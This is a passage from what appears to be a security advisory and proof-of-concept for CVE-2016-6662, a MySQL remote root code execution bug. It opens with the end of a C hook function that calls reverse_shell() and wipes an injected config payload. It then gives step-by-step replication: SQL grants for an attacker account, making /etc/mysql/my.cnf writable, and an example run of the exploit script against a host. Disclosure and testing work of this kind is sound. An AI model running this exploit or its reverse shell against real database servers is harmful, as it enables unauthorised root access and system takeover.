 ~~~~~~~~~~~~~~~~~~~~~~~~~
          reverse_shell();

    // clean injected payload before mysqld is started
    config_cleanup();
    return old_execvp(filename, argv);
}


------------------------------------------------




Replication / testing:
~~~~~~~~~~~~~~~~~~

As admin on the target system:
~~~~~~~~

1. Set up a test database account/permissions:

CREATE DATABASE pocdb;
GRANT FILE ON *.* TO 'attacker'@'%' IDENTIFIED BY 'p0cpass!';
GRANT SELECT, INSERT, CREATE ON `pocdb`.* TO 'attacker'@'%';  


2.  Simulate write access on any of available mysql configs.
It just needs to be a valid/parsable config with section e.g:

[isamchk]
key_buffer              = 16M

For example, /etc/mysql/my.cnf on Debian:

# chown mysql:mysql /etc/mysql/my.cnf

# ls -l /etc/mysql/my.cnf
-rw-r--r-- 1 mysql mysql 3534 Sep 11 02:15 /etc/mysql/my.cnf

3. Run the exploit as the attacker and restart mysql when exploit
is done.

Note that attackers could be able to force this step remotely by 
issuing a remote SHUTDOWN command/SQL statement.


As attacker:
~~~~~~~~

1. Enter your library path in mysql_hookandroot_lib.c src.

2. Run the 0ldSQL_MySQL_RCE_exploit.py script.


Example run:
~~~~~~~~

attacker$ ./0ldSQL_MySQL_RCE_exploit.py -dbuser attacker -dbpass 'p0cpass!' -dbhost 192.168.1.10 -dbname pocdb -mycnf /etc/mysql/my.cnf

0ldSQL_MySQL_RCE_exploit.py (ver. 1.0)
(CVE-2016-6662) MySQL Remote Root Code Execution / Privesc PoC Exploit

For testing purposes only. Do no harm.
~~~~~~~~~~~~~~~~~~~~~~~~~